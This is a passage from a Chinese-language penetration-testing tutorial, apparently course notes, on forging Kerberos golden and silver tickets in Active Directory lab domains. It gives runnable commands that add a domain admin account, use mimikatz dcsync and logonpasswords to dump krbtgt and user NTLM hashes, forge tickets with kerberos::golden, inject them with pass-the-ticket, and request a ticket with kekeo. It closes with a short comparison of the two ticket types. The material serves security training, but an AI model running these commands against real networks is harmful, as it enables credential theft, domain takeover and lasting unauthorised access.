   

   添加域管账号密码

   > net user moonsec123 Qwe123... /add /domain
   > net group "Domain Admins" moonsec123 /add /domain

2. 伪造金票

   **伪造金票的所需条件：**

   > 1. 域名称
   > 2. 域sid
   > 3. 域的kbrtgt账号的NTLM Hash值
   > 4. 任意用户名

   登录域管用户，执行whoami 可以看到是administrator 用户：

   

   使用一下命令导出用户krbtgt hash：

   > mimikatz(commandline) # lsadump::dcsync /domain:moonhack.com /all /csv 或lsadump::lsa /inject
   > mimikatz(commandline) # lsadump::dcsync /domain:moonhack.com /user:krbtgt
   > mimikatz.exe "privilege::debug" "lsadump::dcsync /domain:moonsec.fbi /all /csv" "exit">loghash.txt

   

   利用mimikatz 生成金票生成.kirbi 文件并保存：

   ~~~
   mimikatz.exe "kerberos::golden /admin:system /domain:moonhack.com /sid:S-1-5-21-3439616436-2844000184-3841763578 /krbtgt:4c1d57638dddb470a8588af80160f5f6 /ticket:ticket.kirbi" exit
   ~~~

   > /admin：伪造的用户名
   > /domain：域名称
   > /sid：SID 值，注意是去掉最后一个-后面的值
   > /krbtgt：krbtgt 的HASH 值
   > /ticket：生成的票据名称//不是写入内存中的命令！

   

3. 金票的使用（普通域用户，利用黄金票据，创建域管账号）

   登录域内普通用户，通过mimikatz 中的kerberos::ptt 功能将ticket.kirbi 导入内存中。

   导入票据之前访问域控

   

   > mimikatz # kerberos::purge
   > mimikatz # kerberos::ptt C:\Users\test\ticket.kirbi

   

   注入内存中可以再来访问dc 可以成功 

   

   

#### **白银票据（Silver Ticket）**

1. 原理

   > 如果说黄金票据是伪造的TGT,那么白银票据就是伪造的ST。
   > 在Kerberos 认证的第三步，Client 带着ST 和Authenticator3 向Server 上的某个服务进行请求，Server 接收到Client 的请求之后,通过自己的Master Key 解密ST,从而获得Session Key。通过Session Key 解密Authenticator3,进而验证对方的身份,验证成功就让Client 访问server 上的指定服务了。所以`我们只需要知道Server 用户的Hash 就可以伪造出一个ST`,且不会经过KDC,但是伪造的门票只对部分服务起作用。

2. 特点

   > 1. 不需要与KDC进行交互
   > 2. 需要Server的NTLM Hash

具体操作介绍：

登录上面创建的域管用户，用管理员权限打开CMD，cd 到mimikatz 存放的目录，去执行mimikatz 的命令，得到SID 和NTLM，

~~~
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit">log.txt
~~~



先使用mimikatz 清空票据，再导入伪造的票据,具体伪造票据的命令:

~~~
kerberos::purge
kerberos::golden /domain:moonsec.fbi /sid:S-1-5-21-3068616892-3890610424-3278931909 /target:12server-dc.moonsec.fbi /service:cifs /rc4:42e2656ec24331269f82160ff5962387 /user:administrator /ptt
~~~



使用方法：

> kerberos::golden /domain:<域名> /sid:<域SID> /target:<目标服务器主机名> /service:<服务类型> /rc4:\<NTLM Hash> /user:<用户名> /ptt

其中的用户名可以随便写
服务类型可以从以下内容中来进行选择，因为我们没有TGT 去不断申请ticket，所以只能针对某一些服务来进行伪造。



现在已经有域管的权限了。



**kekeo 制作环境银票**

~~~
tgt::ask /user:administrator /domain:moonsec.fbi /ntlm:42e2656ec24331269f82160ff5962387
// tgt::ask /user:用户名/domain:域名/ntlm:NTLM Hash kerberos::ptt TGT_administrator@MOONSEC.FBI_krbtgt~moonsec.fbi@MOONSEC.FBI.kirbi
~~~



#### 金票和银票的区别

1. 获取的权限不同

   金票：伪造的TGT，可以获取任意Kerberos的访问权限

   银票：伪造的ST，只能访问指定的服务，如CIFS

2. 认证流程不同

   金票：同KDC交互，但不同AS交互

   银票：不同KDC交互，直接访问服务器

3. 加密方式不同

   金票：使用kbrtgt NTLM hash加密

   银票：使用服务账号的NTLM hash加密

